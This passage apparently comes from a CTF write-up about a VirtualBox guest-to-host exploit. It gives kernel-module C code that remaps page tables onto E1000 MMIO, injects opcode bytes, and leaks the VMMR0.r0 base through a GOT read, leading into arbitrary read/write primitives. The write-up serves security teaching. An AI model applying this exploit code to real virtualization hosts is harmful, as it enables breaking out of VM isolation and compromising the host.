 ```c
    );
}

static ssize_t drv_read(struct file *file, char __user *buf, size_t count, loff_t *ppos) {

    printk(KERN_INFO "In drv_read\n");
    
    /* E1000_MANC: E1000_MMIO_BASE + 0x5820 */
    int* inst = ioremap(E1000_MMIO_BASE+0x5000,0x1000);

    char* code = kmalloc(0x1000,GFP_KERNEL);
    size_t cr3;
    asm(
            "mov %[val],cr3\r\n;"
            :[val]"=r"(cr3)::
    );
    
    /* Modify code's PTE so code points to E1000_MMIO_BASE+0x5000 */
    size_t* ent = to_page_entry(cr3,(size_t)code);
    size_t* B = to_page_entry(cr3,(size_t)drv_read);
    *ent = (E1000_MMIO_BASE+0x5000) | ( (*B)&0xff00000000000fffULL);    
    // Do read/write table
    sll idx = <some index>;
    size_t val = <some value>;
    write_table(inst, code, idx, val);
    read_table(inst, code, idx);
    
    return 0;
}
```

Notice that we have to write `"\x0f\x25\xc3"` into `E1000_MANC` if we want to do `iemOp_ReadTable`. The `\xc3` ( `ret` ) is for returning to our kernel code after doing `\x0f\x25`. The same applies to `iemOp_WriteTable`. Also the `__attribute__((optimize("O0")))` is to tell gcc don't optimize those functions into `drv_read`. I found that if the optimization was on, the compiled code will be incorrect ( it somehow optimized the `WT` instruction, making us unable to do `iemOp_WriteTable` ).

Now we can use `read_table` to leak some address. We first leak the base address of `VMMR0.r0` by reading the GOT of `iemAImpl_mul_u8` : 

```c
// leak VMMR0.r0's base
sll off_table = 0x1FC060; // table's offset in VMMR0.r0
sll off_iemAImpl_mul_u8 = 0x1dacd0; // iemAImpl_mul_u8's got in VMMR0.r0
size_t vmmr0_base = read_table(inst, code, (off_iemAImpl_mul_u8 - off_table)>>3 ) - 0x11a6a8;
printk(KERN_INFO "vmmr0_base: %px\n", vmmr0_base);
```

Note that we'll need to use `%px` in `printk` in order to print out the 64 bits hex value, ( `%p` only print out 32 bits ).

Now with `VMMR0.r0`'s base address, we can know the memory address of `table`. Using this information we can then create kernel arbitrary read/write primitives:
